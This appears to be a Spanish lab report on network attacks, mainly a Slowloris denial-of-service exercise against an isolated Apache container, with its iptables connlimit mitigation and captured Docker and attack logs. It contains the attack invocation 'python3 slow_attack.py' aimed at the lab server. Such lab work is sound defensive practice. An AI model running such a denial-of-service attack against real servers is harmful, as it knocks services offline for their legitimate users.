Container p12v-servidor-1 Created
Container p12v-cliente-1 Created
Container p12v-cliente-1 Starting
Container p12v-servidor-1 Starting
Container p12v-cliente-1 Started
Container p12v-servidor-1 Started
40472893517F0000:error:0A000438:SSL routines:ssl3_read_bytes:tlsv1 alert internal error:../ssl/record/rec_layer_s3.c:1601:SSL alert number 80
CONNECTED(00000003)
New, (NONE), Cipher is (NONE)
Protocol : TLSv1
Cipher : 0000
Verify return code: 0 (ok)
Container p12v-servidor-1 Stopping
Container p12v-cliente-1 Stopping
Container p12v-cliente-1 Stopped
Container p12v-cliente-1 Removing
Container p12v-servidor-1 Stopped
Container p12v-servidor-1 Removing
Container p12v-cliente-1 Removed
Container p12v-servidor-1 Removed
Network p12v_labnet Removing
Network p12v_labnet Removed
Punto 13 — Ataques Low-and-Slow (Slowloris)
Descripción de la vulnerabilidad
Conexiones HTTP incompletas que agotan el pool de threads del servidor web.
Escenario de laboratorio
Atacante 10.9.0.11, servidor Apache 10.9.0.100.
Mitigación aplicada
iptables connlimit --connlimit-above 10 por IP.
Estado vulnerable

Estado mitigado

Vulnerable
Cliente legítimo recibe timeout; servidor satura conexiones concurrentes.
Mitigado
Conexiones extra son rechazadas; cliente legítimo accede con normalidad.
Comandos de demostración
python3 slow_attack.py 10.9.0.100 20Salida capturada (vulnerable)
05434 ---> 32eebfa30b0e Step 9/9 : LABEL com.docker.compose.image.builder=classic ---> Removed intermediate container 7095e49a950a ---> 00b775bf0d6e Step 9/9 : LABEL com.docker.compose.image.builder=classic ---> Running in c82a0ab1e1b3 ---> Running in b41a085b6e10 ---> Running in 53117592d8e9 ---> Removed intermediate container c82a0ab1e1b3 ---> 6aa3bae938ff Successfully built 6aa3bae938ff ---> Removed intermediate container 53117592d8e9 ---> a62f0e7ab0a5 ---> Removed intermediate container b41a085b6e10 ---> 5df6f1e4feeb Successfully built 5df6f1e4feeb Successfully built a62f0e7ab0a5 Successfully tagged p13v-cliente:latest Image p13v-cliente Built Image p13v-cliente Built Successfully tagged p13v-servidor:latest Image p13v-servidor Built Image p13v-servidor Built Successfully tagged p13v-atacante:latest Image p13v-atacante Built Image p13v-atacante Built Network p13v_labnet Creating Network p13v_labnet Created Container p13v-cliente-1 Creating Container p13v-atacante-1 Creating Container p13v-servidor-1 Creating Container p13v-servidor-1 Created Container p13v-cliente-1 Created Container p13v-atacante-1 Created Container p13v-atacante-1 Starting Container p13v-cliente-1 Starting Container p13v-servidor-1 Starting Container p13v-atacante-1 Started Container p13v-cliente-1 Started Container p13v-servidor-1 Started [*] Cliente legítimo (puede timeout): http_code=000 time=0.000412s [!] Timeout/fallo — servidor saturado por Slowloris Container p13v-atacante-1 Stopping Container p13v-cliente-1 Stopping Container p13v-servidor-1 Stopping Container p13v-servidor-1 Stopped Container p13v-atacante-1 Stopped Container p13v-atacante-1 Removing Container p13v-servidor-1 Removing Container p13v-cliente-1 Stopped Container p13v-cliente-1 Removing Container p13v-servidor-1 Removed Container p13v-atacante-1 Removed Container p13v-cliente-1 Removed Network p13v_labnet Removing Network p13v_labnet Removed